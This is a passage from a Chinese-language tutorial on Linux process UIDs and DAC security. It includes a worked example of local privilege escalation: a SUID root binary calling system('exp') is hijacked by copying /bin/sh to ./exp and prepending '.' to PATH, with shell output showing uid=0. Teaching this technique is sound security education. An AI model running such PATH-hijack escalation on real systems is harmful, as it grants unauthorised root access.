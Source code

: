 注意:设置 uid 是一个复杂的部分，这些子例程的行为在不同的场景下会有所不同，而且 uid 可能并不总是设置成功，所以要经常检查返回值。

# 进程 UID 的权限提升示例

假设您作为用户`test`在/tmp 下发现了一个名为`worker`的可疑 SUID 可执行文件:

```
test@debian:/tmp$ ls -l
-rwsr-xr-x 1 root root  16664 Nov  9 23:06 worker
-rw-r--r-- 1 root root     71 Nov  9 23:06 worker.c
```

worker.c 是`worker`的源代码，检查其内容:

```
test@debian:/tmp$ cat worker.c
#include <unistd.h>
void main(void){
  setuid(0);
  system("exp");
}
```

当无权限用户执行`worker`程序时，会以 EUID 0 和 SUID 0 启动，在`worker.c`程序内部调用 setuid(0)提升权限后，下一行的外部`system("exp")`将以 root 权限执行。

要利用它，只需在/tmp 目录中将`/bin/sh`复制为`exp`

```
test@debian:/tmp$ cp /bin/sh ./exp
```

然后设置`PATH` env。

```
test@debian:/tmp$ PATH=.:$PATH
```

再次执行它，您将获得根权限。

```
test@debian:/tmp$ ./worker
test@debian:/tmp$ id
uid=0(root) gid=1001(test) groups=1001(test)
```

其他漏洞，如[共享对象/库注入](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)或[使用 SetUID](https://github.com/RackunSec/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/linux.md#mounted-filesystems-with-setuid) 挂载文件系统，都依靠类似的技术来提升权限。

# DAC 的缺点

DAC 有其缺点，它只提供 3 种权限——读、写和执行。一个进程(例如`/usr/bin/passwd`)被授予 root 权限，它可能只需要这些权限中的一小部分，过于宽松的权限会带来安全隐患。所以 Linux 功能来加强 Linux 系统的安全性。

# Linux 分解根权限的能力

